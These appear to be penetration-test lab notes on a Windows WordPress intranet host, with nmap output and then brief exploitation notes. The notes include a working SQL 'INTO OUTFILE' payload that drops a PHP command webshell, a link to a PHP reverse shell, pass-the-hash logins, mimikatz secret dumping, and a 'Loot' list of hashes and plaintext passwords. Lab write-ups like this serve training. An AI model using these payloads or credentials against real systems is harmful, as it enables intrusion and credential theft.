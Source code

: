 ```
Nmap scan report for 172.16.201.7
Host is up (0.015s latency).
Not shown: 65519 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
|_http-generator: WordPress 6.0.3
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29
| http-title: RELIA INTRANET &#8211; Just another WordPress site
|_Requested resource was http://172.16.201.7/wordpress/
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.53 ((Win64) OpenSSL/1.1.1n PHP/7.4.29)
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.53 (Win64) OpenSSL/1.1.1n PHP/7.4.29
| http-title: RELIA INTRANET &#8211; Just another WordPress site
|_Requested resource was https://172.16.201.7/wordpress/
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-generator: WordPress 6.0.3
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql         MariaDB (unauthorized)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=INTRANET.relia.com
| Not valid before: 2025-02-06T19:32:09
|_Not valid after:  2025-08-08T19:32:09
|_ssl-date: 2025-02-07T21:25:36+00:00; -4s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELIA
|   NetBIOS_Domain_Name: RELIA
|   NetBIOS_Computer_Name: INTRANET
|   DNS_Domain_Name: relia.com
|   DNS_Computer_Name: INTRANET.relia.com
|   DNS_Tree_Name: relia.com
|   Product_Version: 10.0.20348
|_  System_Time: 2025-02-07T21:24:56+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: INTRANET, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:86:be:10 (VMware)
| smb2-time: 
|   date: 2025-02-07T21:24:55
|_  start_date: N/A
|_clock-skew: mean: -4s, deviation: 0s, median: -4s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE
HOP RTT      ADDRESS
1   15.20 ms 172.16.201.7

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 323.67 seconds
```

- Got shell using michels creds
- Found passwords.txt file in C:\xampp
	- MySQL (phpMyAdmin)
		- root:NOPASSWORD
	- Mercury:
		- newuser:wampp
	- Webdav:
		- xampp-dav-unsecure:ppmax2011
- Discovered phpmyadmin at localhost/phpmyadmin
	- Discovered credentials under wp_users
		- ```admin:$P$B31Lzkqy3y9lp7aDU6sYckSiHRmUaE0```
			- Email: wp-admin@relia.com
- Able to login using evil-winrm and administrator hash
- Got andreas password with mimi
# Loot:
- Admin hash: 8b4547a5116dd13e6e206d1286a06b28
- andrea:PasswordPassword_6
# Courses of Action:
- ~~There is a sql server running on port 3306 that we should access with a proxy~~
- Upload a reverse shell via phpmyadmin
- Used this tutorial to get a webshell via phpmyadmin that is running as root (https://benheater.com/proving-grounds-squid/)
	- had to adjust php webshell to: 
	```
	SELECT "<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>" INTO OUTFILE 'C:/xampp/htdocs/webshell.php';
	```
- Got full reverse shell using this payload: https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.phpcd
- Got andreas password using lsadump::secrets